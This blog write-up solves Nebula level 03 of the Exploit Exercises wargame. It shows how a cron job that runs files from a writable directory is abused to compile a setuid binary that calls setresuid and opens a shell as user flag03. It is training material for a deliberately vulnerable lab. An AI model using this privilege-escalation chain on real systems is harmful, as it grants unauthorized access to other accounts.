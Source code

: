 ```yaml
---
title: "Exploit Exercises - Nebula Level 03"
date: 2014-01-09 17:03:25+08:00
tags: 
- Security
- Exercises
- Nebula
---
```


### About
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03 . Files for this level can be found in /home/flag03.

<!-- more -->

### Solution

No source code is available for this level, but there is a shell script in the home directory of user flag03

``` sh writable.sh
#!/bin/sh
for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script would be executed periodly by cron, after I have finished this level, I logged in with the admin account and get the content of the corresponding crontab file

``` sh /var/spool/cron/crontabs/flag03
*/3 * * * * /home/flag03/writable.sh
```

For the meaning of this crontab file, please refer to the [Cron Wiki](https://wiki.archlinux.org/index.php/cron) of Archlinux.

Back to the script located in */home/flag03*, this script does the following things

1. limits the use cpu time to be 5s
2. iterately executes all the executable files in directory */home/flag03/writable.d/*
3. delete these executables after executing

This crontab runs in user *flag03*, we could leverage it to do something interesting, like changing the home directory of user *flag03* to be public readable and writable, but what we need is beyond this. 

It is easy to find a way to get the privilege of user *flag03* after all we have read in the previous exercises. So I wrote the following code in C

``` c flag03.c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main() {
	setresuid(996, 996, 996);
	system("/bin/bash");
}
``` 

The uid 996 is got by reading */etc/passwd*

``` c
flag03:x:996:996::/home/flag03:/bin/sh
```

What I need now is to make user *flag03* compile this C code into an executable that could be run by *level04* and the set-user-ID bit is set. So I wrote the following script 

``` sh compile
gcc -o /home/flag03/flag03 /home/level03/flag03.c
chmod 777 /home/flag03/flag03
chmod +s /home/flag03/flag03
```

To make the file */home/level03/flag03.c* readable by user flag03, I changed the permission of my home directory

``` bash
$ chmod a+rx /home/level03
```

Now, place the compile script into */home/flag03/writable.d", and wait patiently for the execution of crontab. After this script is called, I got an executable in */home/flag03* to help me get the privilege of user *flag03* :)